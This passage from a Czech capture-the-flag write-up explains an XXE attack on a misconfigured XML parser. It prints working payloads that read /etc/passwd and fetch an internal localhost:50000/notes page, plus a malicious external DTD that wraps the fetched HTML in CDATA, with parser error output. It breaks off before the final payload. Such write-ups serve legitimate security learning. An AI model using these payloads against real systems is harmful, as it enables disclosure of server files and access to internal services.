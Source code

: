 V `DOCTYPE` lze ale specifikovat mnohem více věcí a špatně nastavený XML parser
je náchylný na XXE útok (XML External Entity). Například takhle si lze vypsat
obsah souboru `/etc/passwd`, definujeme si entitu `xxe` a tu pak v těle necháme
vypsat:

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

Toto skutečně zafunguje a vypíše nám na webu obsah `/etc/passwd`. Bohužel když
zkusíme vypsat obsah `/notes` získaný přes localhost…

```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://localhost:50000/notes" >]>
<foo>&xxe;</foo>
```

… tak nám web zahlásí, že při parsování XML získaného z této adresy
nastala chyba:

```text
http://localhost:50000/notes:3:2:FATAL:PARSER:ERR_NAME_REQUIRED: StartTag: invalid element name
http://localhost:50000/notes:13:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 12 and head
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NAME_MISMATCH: Opening and ending tag mismatch: link line 9 and html
http://localhost:50000/notes:45:8:FATAL:PARSER:ERR_TAG_NOT_FINISHED: Premature end of data in tag meta line 8 <string>:4:11:FATAL:PARSER:ERR_UNDECLARED_ENTITY: Entity 'xxe' failed to parse
```

Co s tím? HTML kód stránky se spoustou `<` a `>` zkrátka takhle jednoduše do XML
nenacpeme. Existuje ale element `<![CDATA[ ... ]]>`, do kterého lze nacpat
cokoliv a nebude to parsováno jakožto XML, to by mohlo být řešení. Bohužel ale
nejde použít přímo, protože nejde kombinovat externí a vnitřní entity. Pro detaily
viz specifikace XMLka… nebo si to zkusit, jak jsem zkusil já.

Je potřeba udělat trik s oklikou. Vyrobíme si zlou specifikaci v `.dtd` souboru,
kde už trik s `CDATA` použít lze, a přinutíme XML parser, aby ho načetl.

Zlé DTD může vypadat třeba takto:

```xml
<!ENTITY % url SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY contents '%start;%url;%end;'>">
```

*Poznámka: Během soutěže jsem DTD měl bohužel špatně poskládané a nepovedlo se mi
ho oddebugovat, opravil jsem to až při psaní tohoto writeupu.*

Vystavíme ho třeba na lokálním počítači – když jsme připojení k VPNce, může se
k nám server s XML parserem taky připojit. Do XML parseru pak vložíme následující
XML:
